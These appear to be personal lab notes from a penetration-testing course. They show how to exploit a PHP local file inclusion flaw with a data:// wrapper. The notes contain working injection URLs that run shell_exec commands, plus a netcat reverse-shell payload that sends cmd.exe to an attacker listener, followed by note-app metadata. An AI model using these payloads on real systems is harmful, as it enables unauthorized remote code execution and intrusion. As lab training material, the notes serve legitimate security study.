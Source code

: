 9.4.4.10

# 9.4.4.10
## 9.4.4.10.1. Exploit the LFI vulnerability using a PHP wrapper.

Instead of poisoning a local file, we can use an alternative payload by way of using a data wrapper. The application should treat it the same as using a regular file and include it in the page. 

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("ipconfig") ?>`
![3e4e0ac65d2ad5d8536cf29a34550222.png](:/e28e14be71af4d2b89690457f902cf7f)

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`
![b6df8c1de3b7ac288961f2c307a1c258.png](:/529e2b38ad1b4dd5b13be5b7a17bb869)

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>`
![4202736274398c046734d7ad384df6a6.png](:/f27e506a3a524a64941fa0e84f8d5e1b)



## 9.4.4.10.2. Use a PHP wrapper to get a shell on your Windows 10 lab machine.
Start a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678               
listening on [any] 5678 ... 
```

Execute PHP code that opens a netcat client that sends cmd.exe upon connection
`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc -nv 192.168.119.214 5678 -e cmd.exe") ?>`
![acb07ab85a511fadee0ff1f6e99acb1f.png](:/6a9b00e0da764e32978c6a674b64b143)

Notice we have a shell
![a6f85a4ea83794f743efcbb696f0ae8d.png](:/9b5becdfbfff4379a884f2ff438d3c4a)

id: c1bfbb13115c4a8398d597dbf07b8eef
parent_id: 236734c5555947779a2739cdaaa1b30f
created_time: 2020-10-02T21:20:29.631Z
updated_time: 2020-10-02T21:20:31.100Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:20:29.631Z
user_updated_time: 2020-10-02T21:20:31.100Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1